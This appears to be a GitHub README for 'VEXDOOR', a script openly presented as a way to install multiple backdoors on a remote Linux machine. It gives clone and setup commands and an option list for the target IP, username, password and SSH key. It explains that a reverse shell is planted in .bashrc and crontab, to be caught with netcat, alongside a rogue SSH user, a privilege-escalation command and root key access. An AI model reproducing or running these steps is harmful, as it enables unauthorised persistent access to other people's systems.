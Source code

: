 # VEXDOOR

vexdoor is a script created by vex that create a multi backdoors on one linux machine

## Installation

first you need to git the directory

```bash
git clone https://github.com/V33-777/VEXDOOR
```

after that you need to create a ssh public key using this command
```bash
ssh-keygen -t rsa -b 4096
```

now you need to move the public key to vexdoor directory

## SETUP

```bash
chmod +x Requirements.sh
chmod +x vexdoor
./vexdoor
```
atfer that you need just to use -h option to understand how it works:
```bash
VVVVVVVV           VVVVVVVV 333333333333333   XXXXXXX       XXXXXXX      
V::::::V           V::::::V3:::::::::::::::33 X:::::X       X:::::X      
V::::::V           V::::::V3::::::33333::::::3X:::::X       X:::::X      
V::::::V           V::::::V3333333     3:::::3X::::::X     X::::::X      
 V:::::V           V:::::V             3:::::3XXX:::::X   X:::::XXX      
  V:::::V         V:::::V              3:::::3   X:::::X X:::::X         
   V:::::V       V:::::V       33333333:::::3     X:::::X:::::X          
    V:::::V     V:::::V        3:::::::::::3       X:::::::::X           
     V:::::V   V:::::V         33333333:::::3      X:::::::::X         github:https://github.com/V3X-777     
      V:::::V V:::::V                  3:::::3    X:::::X:::::X          discord:s3cdet17
       V:::::V:::::V                   3:::::3   X:::::X X:::::X         
        V:::::::::V                    3:::::3XXX:::::X   X:::::XXX      
         V:::::::V         3333333     3:::::3X::::::X     X::::::X      
          V:::::V          3::::::33333::::::3X:::::X       X:::::X      
           V:::V           3:::::::::::::::33 X:::::X       X:::::X      
            VVV             333333333333333   XXXXXXX       XXXXXXX      
Backdoor Setup Script
---------------------
This script is created by V3X to create multi-backdoors on a remote machine.

Usage: ./try.sh -u <machine_username> -p <password> -U <your_username> -i <target_ip> -I <ip_user> -P <port> -k <public_key>
Options:
  -u <target_username>      : Remote machine username
  -P <password>              : Password for your user
  -U <your_username>         : Your username
  -I <your_ip>               : Your IP address
  -i <ip_target>               : IP target
  -p <port>                  : Port number
  -k <public_key>            : Path to SSH public key file

```
# USAGE
if you want to use ls you need to put fin :
```bash
[root@SecDet vex]# fin
Desktop   Documents   Downloads   Music   Pictures   Public   Templates   vex   Videos
```
waiting to receive your revshell cuz i put your revshell in the .bashrc and in crontab so after 1 min you will receive it
```bash
[vex👽>  ]$ nc -lnvp "your port"
```
you can connect to the ssh with your user that you put it in the first 
```bash
[vex👽>  ]$ ssh username@ip
```
there is another trick if you find a way to entre to the machine you can high your privilege with this command
```bash
[vex👽>  ]$ vshell
```
you can login to the ssh by your id_rsa 
```bash
[vex👽>  ]$ ssh -i id_rsa root@ip
